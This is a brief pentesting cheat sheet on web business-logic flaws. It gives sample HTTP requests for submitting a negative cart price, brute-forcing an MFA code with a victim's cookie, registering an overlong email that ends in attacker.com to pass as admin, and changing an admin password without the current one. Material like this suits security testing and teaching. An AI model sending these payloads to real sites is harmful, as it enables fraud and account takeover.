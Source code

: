 ```yaml
---
title: Business Logic Vulnerabilities
desc: Examples of Business logic vulnerability.
tags: [BusinessLogic, Web]
alts: []
website:
render_with_liquid: false
---
```


## POST request parameter

```html
POST /cart HTTP/1.1
...

<!-- price is less than 0 -->
productId=1&quantity=1&price=-1000
```

<br />

## Broken two-factor

```html
POST /login HTTP/1.1
Cookie: verify=victim
...

<!-- Brute force digits code -->
mfa-code=1111
```

<br />

## Loop back with 2,147,483,647

<br />

## Register with very long email address contains the email address for admin

```html
POST /register HTTP/1.1
...

username=attacker&password=pass1&email=aaaaaaaaaaaaa...aa@vulnerable.com.attacker.com
```

<br />

## Remove POST parameter

```html
POST /change-password HTTP/1.1
...

<!-- Remove 'current-password' parameter -->
username=admin&new-password-1=newpass&new-password-2=newpass
```